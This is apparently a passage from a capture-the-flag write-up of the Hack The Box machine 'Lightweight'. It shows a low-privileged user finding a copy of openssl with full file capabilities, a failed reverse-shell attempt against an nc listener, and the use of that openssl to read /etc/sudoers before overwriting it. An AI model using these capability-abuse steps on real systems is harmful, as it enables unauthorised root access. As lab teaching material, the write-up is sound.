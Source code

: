The binaries themselves are the same with original ones.
Instead, as we checked ahead, `openssl` on home directory has different capability.

```bash
[ldapuser1@lightweight ~]$ getcap /home/ldapuser1/tcpdump /usr/sbin/tcpdump
/home/ldapuser1/tcpdump = cap_net_admin,cap_net_raw+ep
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep


[ldapuser1@lightweight ~]$ getcap /home/ldapuser1/openssl /usr/bin/openssl
/home/ldapuser1/openssl =ep
```

### Exploit `openssl`

##### Reverse shell (Failed)

I tried to open a reverse shell for the first try but it was not successful.

```bash
┌──(kali㉿kali)-[~/htb/lightweight]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.119] 46952
▒��H��D5��1�#K�E&�<y##.�a?R�)�b��0�,�(�$��
����kjih9876�����2�.�*�&���=5��/�+�'�#��        ����g@?>3210����EDCB�1�-�)�%���</�A��
���
   ��C
```

It seems not working. I think it's because `/bin/sh` doesn't have the capabilities that `openssl` has.

##### Overwrite `/etc/sudoers`

Next choice is overwriting `/etc/sudoers` file.
First let's backup the current `sudoers` file.

```bash
[ldapuser1@lightweight ~]$ ./openssl enc -in /etc/sudoers > /dev/shm/sudoers


[ldapuser1@lightweight ~]$ cat /dev/shm/sudoers
## Sudoers allows particular users to run various commands as
## the root user, without needing the root password.
##
## Examples are provided at the bottom of the file for collections
## of related commands, which can then be delegated out to particular
## users or groups.
## 
## This file must be edited with the 'visudo' command.

...SNIP...

Defaults    secure_path = /sbin:/bin:/usr/sbin:/usr/bin

## Next comes the main part: which users can run what software on 
## which machines (the sudoers file can be shared between multiple
## systems).
## Syntax:
##
##      user    MACHINE=COMMANDS
##
## The COMMANDS section may have other options added to it.
##
## Allow root to run any commands anywhere 
root    ALL=(ALL)       ALL
```